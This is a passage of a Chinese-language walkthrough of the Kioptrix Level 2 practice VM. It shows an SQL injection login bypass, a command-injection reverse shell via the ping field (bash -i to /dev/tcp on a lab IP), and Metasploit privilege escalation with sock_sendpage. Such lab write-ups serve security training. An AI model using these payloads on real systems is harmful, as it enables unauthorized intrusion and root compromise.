    

9. 使用msf搜索上面发现的漏洞，CVE-2007-6750、CVE-2014-0224、CVE-2015-4000、CVE-2007-6750、CVE-2014-3566、CVE-2007-6750都可以搜到

10. 再看看web界面，f12发现源码中提示使用管理员登录
    

11. 尝试SQL注入，万能账户登录成功，这里存在SQL注入，登录后台发现是一个ping命令，这里有一点需要注意，如果下载的靶机是Kioptrix_Level_2-original.rar，那么进入后台会发现没有输入框，本人一开始下载的是Kioptrix_Level_2-original.rar，结果进后台懵逼了
    
    ```shell
    admin' #
    ```
    
    

# 二、getshell

1. msf利用apache hhtp server命令执行失败，尝试利用后台的ping命令执行，看到ping就知道这里是一个命令执行，可以直接利用这里反弹shell，kali使用msf开启监听
   
   ```shell
   use exploit/multi/handler
   set payload linux/x86/shell_reverse_tcp
   set lhost 192.168.0.107
   run
   ```

2. 浏览器中在ping命令的输入框中输入以下命令，然后提交
   
   ```shell
   # 浏览器
   ping 127.0.0.1;bash -i >& /dev/tcp/192.168.0.107/4444 0>&1
   ```

3. msf成功获取到shell
     
   
   # 三、权限提升

4. 使用msf的自动提权模块，搜索可用的提权exp，一共搜到了58个exp，但我们最好使用最上面的绿色的建议的exp
   
   ```shell
   use post/multi/recon/local_exploit_suggester
   set session 1 #先sessions -l查一下，看看上面获取到的shell的session id是什么
   run
   ```
   
     

5. 经过一番尝试，最终使用第三个本地提权脚本提权成功
   
   ```shell
   use exploit/linux/local/sock_sendpage
   set payload linux/x86/shell_reverse_tcp
   set session 1
   set lport 5555
   run
   ```
   
     